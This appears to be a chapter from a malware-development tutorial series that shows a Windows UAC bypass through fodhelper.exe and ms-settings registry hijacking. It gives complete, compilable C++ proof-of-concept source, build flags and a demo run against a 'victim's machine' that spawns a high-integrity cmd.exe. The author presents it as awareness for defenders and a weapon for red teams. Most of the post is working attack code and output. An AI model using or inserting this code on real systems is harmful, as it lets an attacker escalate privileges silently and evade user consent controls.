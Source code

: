 \newpage
\subsection{66. malware AV/VM evasion - part 13 (part 17 on blog): bypass UAC via fodhelper.exe. Simple C++ example.}

﷽

![av-evasion](./images/101/2023-06-20_23-11.png){width="80%"}      

This post appeared as an intermediate result of one of my research projects in which I am going to bypass the antivirus by depriving it of the right to scan, so this is the result of my own research on the first step, one of the interesting UAC bypass trick: via `foodhelper.exe` with registry modification.      

### registry modification

The process of modifying a registry key has as its end objective the rerouting of an elevated program's execution flow to a command that has been managed. The most common misuses of key values involve the manipulation of `windir` and `systemroot` environment variables, as well as shell open commands for particular file extensions (depending on the program that is being targeted):      

- `HKCU\\Software\\Classes\<targeted_extension>\\shell\\open\command (Default or DelegateExecute values)`     
- `HKCU\\Environment\\windir`     
- `HKCU\\Environment\\systemroot`        

### fodhelper.exe

`fodhelper.exe` was introduced in Windows 10 to manage optional features like region-specific keyboard settings. It's location is: `C:\Windows\System32\fodhelper.exe` and it is signed by Microsoft:      

![av-evasion](./images/101/2023-06-20_23-50.png){width="80%"}      

When `fodhelper.exe` is started, process monitor begins capturing the process and discloses (among other things) all registry and filesystem read/write operations.  The read registry accesses are one of the most intriguing activities, despite the fact that some specific keys or values are not discovered. Because we do not require special permissions to modify entries, `HKEY_CURRENT_USER` registry keys are particularly useful for testing how a program's behavior may change after the creation of a new registry key.       

`fodhelper.exe`, searches for `HKCU:\Software\Classes\ms-settings\shell\open\command`. This key does not exist by default in Windows 10:       

![av-evasion](./images/101/2023-06-20_23-58.png){width="80%"}      

So, when malware launches `fodhelper` (as we know, a Windows binary that permits elevation without requiring a UAC prompt) as a Medium integrity process, Windows automatically elevates `fodhelper` from a Medium to a High integrity process. The High integrity `fodhelper` then tries to open a `ms-settings` file using the file's default handler. Since the malware with `medium integrity` has commandeered this handler, the elevated `fodhelper` will execute an attack command as a process with high integrity.      

### practical example

So, let's go to create PoC for this logic. First of all create registry key and set values - our registry modification step:     

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, 
KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
"successfully create reg key\n");

// set the registry values
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
"successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, 
strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : 
"successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

As you can see, just creates a new registry structure in: `HKCU:\Software\Classes\ms-settings\` to perform UAC bypass.      

Then, start elevated app:     

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");
}

return 0;
```

That's all.    

Full source code is looks like `hack.c`:    

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; 
  // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 
  0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
  "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
  "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)
  del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" 
  : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges 
    elevation.\n" : 
    "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

### demo

Let's go to see everything in action. First, let's check registry:    

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](./images/101/2023-06-20_23-08_1.png){width="80%"}      

Also, check our current privileges:     

```powershell
whoami /priv
```

![av-evasion](./images/101/2023-06-20_23-09_2.png){width="80%"}      

Compile our `hack.c` PoC in attacker's machine:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](./images/101/2023-06-20_23-16.png){width="80%"}      

Then, just run it in the victim's machine (`Windows 10 x64 1903` in my case):     

```powershell
.\hack.exe
```

![av-evasion](./images/101/2023-06-20_23-08.png){width="80%"}      

As you can see, `cmd.exe` is launched. Check registry structure again:     

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](./images/101/2023-06-20_23-09.png){width="80%"}      

As you can see, the registry has been successfully modified.    

Check privileges in our launched `cmd.exe` session:    

```powershell
whoami /priv
```

![av-evasion](./images/101/2023-06-20_23-09_1.png){width="80%"}      

Then, run `Process Hacker` with Administrator privileges:     

![av-evasion](./images/101/2023-06-20_23-12.png){width="80%"}      

and check properties of our `cmd.exe`:     

![av-evasion](./images/101/2023-06-20_23-14.png){width="80%"}      

![av-evasion](./images/101/2023-06-20_23-15.png){width="80%"}      

As you can see, everything is worked perfectly! =^..^=     

[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba) malware leveraging this method to first elevate from a Medium to High integrity process, then from High to System integrity via Token Manipulation.     

I hope this post spreads awareness to the blue teamers of this interesting bypass technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK: Modify registry](https://attack.mitre.org/techniques/T1112/)    
[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-06-19-malware-av-evasion-17)       
